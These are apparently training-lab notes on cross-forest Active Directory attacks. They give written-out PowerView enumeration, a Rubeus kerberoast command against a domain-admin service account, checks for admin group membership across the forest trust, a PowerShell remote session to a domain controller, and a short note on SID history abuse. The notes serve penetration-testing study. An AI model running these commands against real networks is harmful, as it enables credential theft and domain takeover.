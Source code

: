 ## Cross-Forest Kerberoasting

**Enumerating Accounts for Associated SPNs Using Get-DomainUser
```
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
- Found mssqlsvc account

**Enumerating the mssqlsvc Account
```
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```
- A part of the domain admins group

**Performing a Kerberoasting Attack with Rubeus Using /domain Flag
```ps
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

## Admin Password Re-Use & Group Membership

It is worth checking for password reuse across two forests, especially if two user names are very similar.
If we see a domain admin or Enterprise admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectinal forest trust relationship, then we can take over this admin user in Domain A and gain full administrative access to Domain B based on group membership.

**Using Get-DomainForeignGroupMember
```
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500
```
- The built-in Administrators group in FREIGHTLOGISTICS.LOCAL has the built-in Administrator account for the INLANEFREIGHT.LOCAL domain as a member.

**Accessing DC03 Using Enter-PSSession
```
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```


## SID History Abuse - Cross Forest

- If SID filtering is not enabled, and a user is migrated from one forest to another, it is possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust.

